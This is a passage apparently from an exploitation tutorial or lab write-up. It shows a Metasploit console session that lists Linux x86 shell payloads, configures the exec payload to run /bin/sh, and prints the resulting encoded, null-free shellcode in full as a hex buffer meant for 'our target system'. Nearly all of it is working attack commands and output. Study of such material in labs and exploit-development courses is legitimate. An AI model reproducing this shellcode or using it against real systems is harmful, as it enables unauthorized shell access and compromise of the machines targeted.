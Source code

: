 ```
use payload/linux/x86/shell/bind_tcp
use payload/linux/x86/shell/find_tag
use payload/linux/x86/shell/reverse_ipv6_tcp
use payload/linux/x86/shell/reverse_nonx_tcp
use payload/linux/x86/shell/reverse_tcp
use payload/linux/x86/shell_bind_ipv6_tcp
use payload/linux/x86/shell_bind_tcp
use payload/linux/x86/shell_bind_tcp_random_port
use payload/linux/x86/shell_find_port
use payload/linux/x86/shell_find_tag
use payload/linux/x86/shell_reverse_tcp
use payload/linux/x86/shell_reverse_tcp2
msf > use payload/linux/x86/exec 
msf payload(exec) > show options

Module options (payload/linux/x86/exec):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD                    yes       The command string to execute

msf payload(exec) > set CMD /bin/sh
CMD => /bin/sh
msf payload(exec) > show options

Module options (payload/linux/x86/exec):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD   /bin/sh          yes       The command string to execute

msf payload(exec) > generate -b '\x00'
# linux/x86/exec - 70 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
# AppendExit=false, CMD=/bin/sh
buf = 
"\xdb\xd0\xbd\x79\xf6\x5f\x15\xd9\x74\x24\xf4\x58\x33\xc9" +
"\xb1\x0b\x31\x68\x1a\x03\x68\x1a\x83\xc0\x04\xe2\x8c\x9c" +
"\x54\x4d\xf7\x33\x0d\x05\x2a\xd7\x58\x32\x5c\x38\x28\xd5" +
"\x9c\x2e\xe1\x47\xf5\xc0\x74\x64\x57\xf5\x8f\x6b\x57\x05" +
"\xbf\x09\x3e\x6b\x90\xbe\xa8\x73\xb9\x13\xa1\x95\x88\x14"
```

Bunch of shellcodes available for our target system, we'll use one that executes command, and the command will of course be ```/bin/sh``` :)
